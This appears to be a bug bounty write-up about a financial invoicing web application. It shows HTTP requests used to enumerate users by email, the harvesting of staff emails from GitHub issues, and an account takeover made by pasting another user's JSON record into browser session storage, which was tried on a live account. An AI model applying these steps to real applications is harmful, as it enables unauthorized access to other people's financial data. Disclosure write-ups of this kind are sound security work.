



# Target Background
A Web application which can be used for financial purposes, in which we can generate the invoice, track and reconcile them. And the payments can be done for the invoices and money can be managed completely through the application	.

## Overview
I have created a test account through the sign up functionality in the application and after logging in, the application have asked to create an organization so we can provide access to our team members and assign them a particular roles based on how they have to play in the application.

## Recon
- reactJS
- Akami Firewall
- REST APIs
- Cookie Authentication

## User Enumeration
At the login page after entering the username and password of my signed up user credentials the application sends a request to an API endpoint like below to verify whether the user is part of the organization, user exists in the DB or not.

### Request
```http
GET /api/v1/user?email=nj@tvhsecurity.com HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers
```

### Response
```http
HTTP/1.1 200 OK 
Date: Wed, 29 Mar 2023 05:59:48 GMT 
X-Powered-By: Express 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Content-Length: 370 ETag: W/"172-rQhbOJIDRtY57xxDgEWDAhUpziE" 
Set-Cookie: blah...blah...blah...; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
  "status": true,
  "message": "Successfully Retrieved",
  "result": [
    {
      "UserId":601███,
      "EmailId": "nj@tvhsecurity.com",
      "RegionId": 160,
      "RegionName": "IN",
      "RoleId": 100,
      "RoleName": "Admin",
      "CountryId": 26█,
      "CountryName": "India",
      "Status": "Approved",
      "Name": "Naveen J",
      "DeliveryCentre": "Bangalore, India",
      "IsActive": true,
      "SubProcess": "null"
    }
  ]
}
```

## Post Login
After logging in into the application i was going through the JS files and local storages and found that the session storage which stores the information that was fetched in the response from the above user verify request. The user results are stored exactly how it was fetched from the API response.

<figure>

<figcaption>Fig 1. Local session storage.</figcaption>
</figure>

## Theory
My theory was initially to test the session storage once it might be vulnerable as the application is only using the encrypted cookies as authentication. In order to test that theory i need another user account so i have signed up another test account.

Now we have 2 legitimate user accounts and we just have to test out the theory, it will work 100% if the application validates the users based on the session storage key **values**.

The below screenshot shows the session storage of **User1** account.

<figure>

<figcaption>Fig 2. Signed_up_user.</figcaption>
</figure>

Now i just have to pass the **User2** account email Id in the email verify request and it will provide all the details that i want to do the manipulation.

```http
GET /api/v1/user?email=nj+1@tvhsecurity.com HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers
```

I have copied the required payload fron the JSON response and changed the session value of the **login** key. After refrshing the page i was able to login into the **User2 account**.

### Notes:-
- User1 = nj@tvhsecurity.com
- User2 = nj+1@tvhsecurity.com

Since both the accounts are fresh accounts i was unable to verify the issue as it is 100% solid, so inorder to verify it i have to make some financial stuffs in the application which was not possible at the moment.

So i decided why not to give a try for a live account. I have to enumerate the users present in the application which is nearly very easy to do all I need is a list of email Ids which belongs to the target organization.

## OSINT
I have decided to do some OSINT recon on the target and get some email Id. After a while I did find some email Ids of the companies business peoples from the contact pages of the organization but all of them turned out to be a failure.

### GitHub Recon
So i decided to do some recon on github using the dorks and found few email Ids via the issues feature. The peoples from the organization commented few issues to their product/services repository codes.

<figure>

<figcaption>Fig 3. GitHub OSINT recon.</figcaption>
</figure>

I made a list and sent it to intruder and checked the content lenght, luckily few of them are valid.

## Verify User

### Request
```http
GET /api/v1/user?email=ba████████@target.com HTTP/2
Host: www.target.com
Cookie: blah...blah...blah...
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.target.com/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Te: trailers
```

### Response
```http
HTTP/1.1 200 OK 
Date: Wed, 29 Mar 2023 05:59:48 GMT 
X-Powered-By: Express 
Access-Control-Allow-Origin: * 
Content-Type: application/json; charset=utf-8 
Content-Length: 370 ETag: W/"172-rQhbOJIDRtY57xxDgEWDAhUpziE" 
Set-Cookie: ; Path=/; HttpOnly 
X-Frame-Options: SAMEORIGIN 
X-Content-Type-Options: nosniff 
X-XSS-Protection: 1; mode=block 
Referrer-Policy: strict-origin-when-cross-origin 
Connection: close 
Strict-Transport-Security: max-age=31536000; includeSubDomains

{
  "status": true,
  "message": "Successfully Retrieved",
  "result": [
    {
      "UserId": 10██,
  "EmailId": "ba████████@target.com",
      "RegionId": [
        300,
        300
      ],
      "RegionName": "NA",
      "RoleId": 100,
      "RoleName": "Admin",
      "CountryId": 200,
      "CountryName": "United States",
      "Status": "Approved",
      "Name": "Bane Smith",
      "DeliveryCentre": "New York, United States",
      "IsActive": true,
      "SubProcess": "null"
    }
  ]
}
```

## Checkpoint
- We have valid user email
- Details required to maipulate session value

### Extracted new session value

```json
{
  "UserId": 10██,
  "EmailId": "ba████████@target.com",
  "RegionId": 100,
  "RegionName": "NA",
  "RoleId": 100,
  "RoleName": "Admin",
  "CountryId": 200,
  "CountryName": "United States",
  "Status": "Approved",
  "Name": "Bane Smith",
  "DeliveryCentre": "New York, United States",
  "IsActive": true,
  "SubProcess": "null"
}
```

The above is the value that we have to pass in the session storage to test the theory.

## Exploitation
Post successfully passing the extracted legitimate users details in the session storage value and after refreshing the page the application gave me access to that user's accounts.

<figure>

<figcaption>Fig 4. Exploitation</figcaption>
</figure>

As you can see i am able to view the invoices generated in the target user's account.

Please note that due to the non-disclosure agreement these are the only information i was allowed to share.

Thank you for reading.

Follow me on Twitter : [thevillagehacker](https://twitter.com/thevillagehackr)
